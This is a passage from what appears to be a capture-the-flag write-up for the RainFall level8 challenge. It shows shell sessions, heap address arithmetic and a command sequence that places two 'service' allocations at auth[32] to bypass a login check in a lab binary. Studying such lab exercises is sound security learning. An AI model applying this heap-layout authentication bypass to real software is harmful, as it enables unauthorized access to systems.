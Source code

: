 **The Exploitation Path Emerges:**
If we can get service to allocate memory at auth[32] location, login will find non-zero data there!

## The Heap Layout Manipulation Strategy

### 11. Understanding Heap Allocation Patterns
```bash
# Testing allocation sizes:
level8@RainFall:~$ ./level8
(nil), (nil) 
auth user
(0x804a008), (nil)
service a
(0x804a008), (0x804a018)  # 16-byte jump (8 + 8 heap metadata)
service b
(0x804a008), (0x804a028)  # Another 16-byte jump
```

**Heap Mathematics:**
```
auth allocation: 0x804a008 (malloc(4) + heap metadata)
service allocation 1: 0x804a018 (0x804a008 + 0x10 = +16 bytes)  
service allocation 2: 0x804a028 (0x804a018 + 0x10 = +16 bytes)

Key insight: 0x804a028 = 0x804a008 + 32 = auth[32] !!!
```

**Strategic Discovery:**
- **Each service call**: Advances heap by ~16 bytes (depends on string length + metadata)
- **Two service calls**: Position memory exactly at auth[32] offset
- **Login check**: Will find service data at auth[32] location
- **Result**: Authentication bypass!

### 12. Crafting the Exploitation Sequence
```bash
# Step 1: Create auth buffer (any size, triggers heap allocation)
auth username

# Step 2: Position heap memory at auth[32] location
service text1    # Allocates at heap position 1
service text2    # Allocates at heap position 2 = auth[32] location!

# Step 3: Trigger authentication check
login           # Checks auth[32], finds service data, grants access!
```

**Memory Layout During Exploitation:**
```
Before exploitation:
auth: [4 bytes allocated] ... [28 bytes gap] ... [auth[32] = unallocated/zero]

After auth + 2 service calls:
auth: [4 bytes: username] [heap metadata] [service1 data] [metadata] [service2 data at auth[32]!]
                                                                      ↑
                                                              login checks here
```
